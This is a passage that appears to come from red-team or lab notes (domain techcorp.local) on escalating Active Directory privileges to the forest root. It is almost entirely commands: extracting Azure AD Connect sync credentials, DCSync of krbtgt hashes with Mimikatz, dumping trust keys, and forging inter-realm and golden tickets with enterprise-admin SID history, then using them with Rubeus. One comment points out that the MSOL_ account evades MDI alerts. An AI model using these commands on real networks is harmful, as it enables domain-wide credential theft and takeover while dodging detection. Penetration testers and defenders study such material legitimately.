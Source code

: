 ```powershell
# Download ZIP from  github, move to machine with AD Connect
# Extract files then run "Import-Module .\AADInternals.psd1"
Get-AADIntSyncCredentials

# With the password, can run commands as MSOL_:
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd

# Then DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<parent>\krbtgt /domain:<parent.local>"'
# Note that because AD Connect synchronizes hashes every two minutes, in an Enterprise Environment, the MSOL_ account will be excluded from tools like MDI! This will allow us to run DCSync without any alerts
```

## Privesc to Forest Root

Abuse SID history with:  
- krbtgt hash (child domain), or  
- trust tickets

```powershell
# Get the trust key
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName <current-dc>
# or
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<childDomain>\<parentDomain>$"'
# or
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

# Forge an inter-realm TGT
Invoke-Mimikatz -Command '"kerberos::golden /domain:<child.domain.local> /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /rc4:b59ef5860ce0aa12429f4f61c8e51979 /user:Administrator /service:krbtgt /target:<parent.local> /ticket:trust_tkt.kirbi"'
# /sid is the sid for the current domain
# /sids is the sid for the enterprise admins group of the parent domain (can also use DA group SID)
# /rc4 is rc4 of the trust key

# Use the ticket - use other services for other purposes
.\Rubeus.exe asktgs /ticket:trust_tkt.kirbi /service:cifs/<parentMachine.parent.local> /dc:<parent-dc.parent.local> /ptt

ls \\<parentMachine.parent.local>\c$
```

```powershell
# Use krbtgt hash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<child.domain.local> /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /ptt"'
# /sid is the sid for the current domain
# /sids is the sid for the enterprise admins group of the parent domain (can also use DA group SID)
# In the above command, the mimkatz option "/sids" is forcefully setting the sIDHistory for the Enterprise Admin group for <child.domain.local> that is the Forest Enterprise Admin Group.

ls \\techcorp-dc.techcorp.local\C$
Enter-PSSession techcorp-dc.techcorp.local
```
